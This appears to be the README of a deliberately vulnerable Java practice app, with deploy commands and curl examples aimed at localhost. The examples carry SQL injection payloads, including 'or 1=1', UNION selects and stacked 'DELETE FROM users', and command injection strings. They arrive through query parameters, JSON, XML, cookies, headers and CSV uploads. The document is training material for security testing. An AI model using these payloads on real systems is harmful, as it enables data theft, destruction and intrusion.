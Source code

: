 # Vulnerable

## Deploy

```bash
rm vulnerable.jar
wget https://github.com/michalszalkowski/vulnerable/raw/master/vulnerable.jar
java -jar vulnerable.jar
```

## SQL Injection

### GET request - payload in query param
```bash
curl --get --data-urlencode "name=michal" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' or 1=1 -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal' UNION SELECT * FROM config -- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\' or 1=1-- -" http://localhost:8080/vun/sql/example1/1/
curl --get --data-urlencode "name=michal\'/**/or/**/1=1/**/-- -" http://localhost:8080/vun/sql/example1/1/
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal\"}"  
curl -X POST http://localhost:8080/vun/sql/example2/ -H "Content-Type: application/json" -d "{\"filter\": \"michal' or 1=1 -- -\"}"  
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker\"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); SELECT * FROM users; -- - \"}"  
curl -X POST http://localhost:8080/vun/sql/example3/ -H "Content-Type: application/json" -d "{\"name\": \"michal\", \"surname\": \"hacker'); DELETE FROM users; -- - \"}"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal"
curl http://localhost:8080/vun/sql/example4/ --cookie "name=michal'%20or%201=1%20--%20-"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal"
curl http://localhost:8080/vun/sql/example5/1/ -H "X-Filter:michal' or 1=1 -- -"
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal</filter></filters>"  
curl -X POST http://localhost:8080/vun/sql/example6/ -H "Content-Type: application/xml" -d "<filters><filter>michal' or 1=1 -- -</filter></filters>"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file.csv
echo "\"michal\",\"hacker'); DELETE FROM users; -- -\"" >> /tmp/file.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/sql/example7/1/ --form file="@/tmp/file.csv"
```

## CMD Injection

### GET request - payload in query param
```bash
curl --get --data-urlencode "cmd=id" http://localhost:8080/vun/cmd/example1/1/
curl --get --data-urlencode "cmd=id; ls -la" http://localhost:8080/vun/cmd/example1/2/
```

### POST request - payload in json body
```bash
curl -X POST http://localhost:8080/vun/cmd/example2/1/ -H "Content-Type: application/json" -d "{\"filter\": \"pwd\"}"  
```

### POST request - payload in xml body
```bash
curl -X POST http://localhost:8080/vun/cmd/example3/1/ -H "Content-Type: application/xml" -d "<filters><filter>pwd</filter></filters>"  
```

### GET request - payload in cookie
```bash
curl http://localhost:8080/vun/cmd/example4/1/ --cookie "cmd=pwd"
```

### GET request - payload in header
```bash
curl http://localhost:8080/vun/cmd/example5/1/ -H "X-Filter:pwd"
```

### POST request - payload in csv file
```bash
echo "\"name\",\"surname\"" > /tmp/file2.csv
echo "\"michal\",\"pwd\"" >> /tmp/file2.csv
curl  -X POST -H "Content-Type: multipart/form-data" http://localhost:8080/vun/cmd/example6/1/ --form file="@/tmp/file2.csv"
```
